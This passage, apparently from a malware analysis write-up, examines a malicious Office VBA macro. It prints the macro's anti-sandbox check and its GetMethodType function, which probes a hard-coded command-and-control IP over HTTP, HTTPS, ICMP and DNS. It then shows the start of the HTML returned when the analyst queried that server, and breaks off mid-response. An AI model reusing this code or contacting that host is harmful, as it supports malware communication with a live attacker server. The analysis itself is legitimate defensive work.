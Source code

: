 
#### Main

The `Auto_Open` function called in the loading VBA simply calls `Main`.

`Main` starts with a check, `If Sandbox Then Exit Function`. Then there’s a
switch statement on `GetMethodType("54.152.19.47")`

This function tests the c2 to see what it’s listening on:

    
    
    Function GetMethodType(myWebsite)
    
        Dim objHTTP, gggggggg
        gggggggg = "WinHttp.WinHttpRequest.5.1"
        Set objHTTP = CreateObject(gggggggg)
        If TestHTTP(objHTTP, myWebsite) Then
            GetMethodType = 0
            Exit Function
        Else
            If TestHTTPS(myWebsite) Then
            GetMethodType = 1
            Exit Function
            End If
        End If
    
        If TestICMP(myWebsite) Then
            GetMethodType = 2
            Exit Function
        End If
    
         If TestDNS() Then
            GetMethodType = 3
            Exit Function
        End If
    
    
        GetMethodType = 999
    End Function
    

I simulated the `TestHTTP` function with a curl, and got back a result:

    
    
    <!DOCTYPE html>
    <html>
    <head>
    <style>
    ul {
        list-style-type: none;
        margin: 0;
        padding: 0;
        overflow: hidden;
        background-color: #333;
    }
    
    li {
        float: left;
    }
    